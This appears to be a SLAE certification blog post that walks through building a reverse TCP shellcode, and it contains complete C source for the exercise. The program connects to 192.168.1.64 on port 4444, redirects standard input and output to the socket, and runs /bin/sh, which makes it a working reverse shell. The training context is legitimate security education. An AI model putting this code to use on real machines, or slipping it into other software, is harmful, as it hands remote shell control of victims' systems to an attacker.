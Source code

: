 # Assignment #2: Reverse Bind TCP 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-858


### Exercise
- Create a Shell_Reverse_TCP shellcode
    - Reverse connects to configured IP and Port
    - Execs Shell on successful connection
- IP and Port number should be easily configurable


### Solution

In the last assignment (#1) I created a *bind tcp shellcode*, the socket was created as a server socket, in this assignment I need to create a client socket. Now we will see how I did it. Like in the last assignment, first, I create the client socket in C language.


The methods involved on it:

- socket:   Create an endpoint for communication and return a file descriptor 
- connect:  Connect the socket to a port and address given.
- dup2:     Duplicate the file descriptor, used for set stdin, stdout and sterr to the new file descritor (returned from accept)   
- execve:   Execute a program (our purpose /bin/sh)



```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <unistd.h>

int main(int argc, char *argv[]){

        // AF_INET = 2;         SOCK_STREAM = 1
        int fd = 0;
        fd = socket(AF_INET, SOCK_STREAM, 0);

        struct sockaddr_in serv_addr; 
        serv_addr.sin_family = AF_INET;
        serv_addr.sin_addr.s_addr = inet_addr("192.168.1.64");
        serv_addr.sin_port = htons(4444); 

        connect(fd, (struct sockaddr*)&serv_addr, sizeof(serv_addr)); 

        // redirect stdin, stdout, stderr
        dup2(fd, 0);
        dup2(fd, 1);
        dup2(fd, 2); 

        // run program
        execve("/bin/sh", NULL, NULL);

}
```
